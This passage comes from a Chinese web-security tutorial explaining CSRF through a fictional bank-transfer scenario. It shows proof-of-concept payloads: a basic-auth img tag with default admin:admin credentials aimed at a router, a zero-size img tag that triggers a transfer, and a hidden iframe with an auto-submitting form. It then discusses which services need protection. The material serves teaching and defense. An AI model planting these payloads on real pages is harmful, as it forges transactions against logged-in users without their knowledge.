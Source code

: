 访问该页面后，表单会自动提交，相当于模拟用户完成了一次POST操作。

### 乌云案例：其他猥琐流 CSRF

过基础认证的CSRF(常用于路由器):POC:

```html
<img src=http://admin:admin@192.168.1.1 /> 
```

加载该图片后，路由器会给用户一个合法的 SESSION，就可以进行下一步操作了。

## CSRF 攻击实例

daguanren（大官人）在银行有一笔存款，输入用户名密码登录银行网银后发送请求进行个人名下账户转账 ：

```
http://www.bank.example/withdraw?account=daguanren1&amount=999&for=daguanren2
```

将 daguanren1 中的 999 块转到了 daguanren2 账号中。通常用户登录后，系统会保存用户登录的session值（可能是用户手机号、账号等）。但如果这时daguanren不小心新开一个tab页面进入了一个黑客jinlian（金莲）的网站，而金莲网站的页面中嵌有如下html标签：

```html
<!DOCTYPE html>
<html>
    <!--其他页面元素-->
    <img src=http://www.bank.example/withdraw?account=daguanren1&amount=888&for=jinlian width='0' height='0'>
    <!--其他页面元素-->
</html>
```

这个请求就会附带上daguanren的session值，成功将大官人的888元转至jinlian的账户上。但如果daguanren之前没有登录网银，而是直接打开jinlian的网站，则由于没有session值，不会被攻击。以上示例虽然是get请求，post请求提交的表单同样会被攻击。

```html
<iframe style="display:none" name="csrf-frame"></iframe>
<form method='POST' action='http://www.bank.example/withdraw' target="csrf-frame" id="csrf-form">
    <input type='hidden' name='account' value='daguanren1'>
    <input type='hidden' name='amount' value='888'>
    <input type='hidden' name='for' value='jinlian'>
    <input type='submit' value='submit'>
</form>
<script>document.getElementById("csrf-form").submit()</script>
```

![image-20221130170027751](https://cdn.staticaly.com/gh/jinmunan/imgs@master/frame/springsecurity/csrf/image-20221130170027751.png)

## CSRF 攻击的对象

在讨论如何抵御 CSRF 之前，先要明确 CSRF 攻击的对象，也就是要保护的对象。从以上的例子可知，CSRF 攻击是黑客借助受害者的 cookie（session） 骗取服务器的信任，但是黑客并不能拿到 cookie，也看不到 cookie 的内容。另外，对于服务器返回的结果，由于浏览器同源策略的限制，黑客也无法进行解析。因此，黑客无法从返回的结果中得到任何东西，**他所能做的就是给服务器发送请求，以执行请求中所描述的命令，在服务器端直接改变数据的值，而非窃取服务器中的数据**。所以，我们要保护的对象是那些可以直接产生数据改变的服务，而对于读取数据的服务，则不需要进行 CSRF 的保护。比如银行系统中转账的请求会直接改变账户的金额，会遭到 CSRF 攻击，需要保护。而查询余额是对金额的读取操作，不会改变数据，CSRF 攻击无法解析服务器返回的结果，无需保护。
